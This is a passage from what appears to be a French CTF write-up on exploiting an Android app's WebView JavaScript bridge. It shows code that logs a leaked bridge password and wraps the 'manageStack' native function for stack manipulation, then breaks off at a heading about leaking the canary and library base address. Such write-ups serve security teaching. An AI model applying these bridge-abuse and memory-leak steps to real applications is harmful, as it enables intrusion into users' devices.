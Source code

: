 Ca marche !
Les alertes sont très visuelles, mais sont encombrantes car nous devons cliquer dessus pour les faire disparaître. C'est pourquoi nous avons décidé d'utiliser `console.log()` à partir de maintenant. Le résultat devrait apparaître dans la sortie logcat de chrome :

```javascript
console.log("password : "+password);
```

En relançant l'exploit, la sortie dans les logs s'affiche comme prévu :

```
08-01 14:51:21.812  8690  8690 I chromium: [INFO:CONSOLE(8)] "password : acec55ba-0f8e-4cff-82c9-5aee97c5bf54", source:  (8)
```

En ayant le mot de passe, nous pouvons interagir avec la fonction `manageStack`. Comme un bridge a été enregistré, nous pouvons y accéder directement depuis le Javascript. Pour des raisons de commodité, nous avons décidé de faire des petits wrappers autour de cette fonction :

```javascript
function push(data) {
    // interface bridge
    return bridge.manageStack(password, "push", data);
}

function pop() {
    // interface bridge
    return bridge.manageStack(password, "pop", '');
}

function top() {
    // interface bridge
    return bridge.manageStack(password, "top", '');
}

function modify(data) {
    // interface bridge
    return bridge.manageStack(password, "modify", data);
}
```

Les données d'entrée doivent être spécifiées en hexadécimal. La sortie l'est également.

Nous pouvons le tester en empilant une valeur sur la pile et en la récupérant avec `top` :

```javascript
push("41424344")
console.log(top())
```

Cela donne :

```
08-01 15:01:04.401  8690  8690 I chromium: [INFO:CONSOLE(31)] "41424344", source:  (31)
```

### Divulguation du canari et de l'adresse de base de la librairie libtridroid
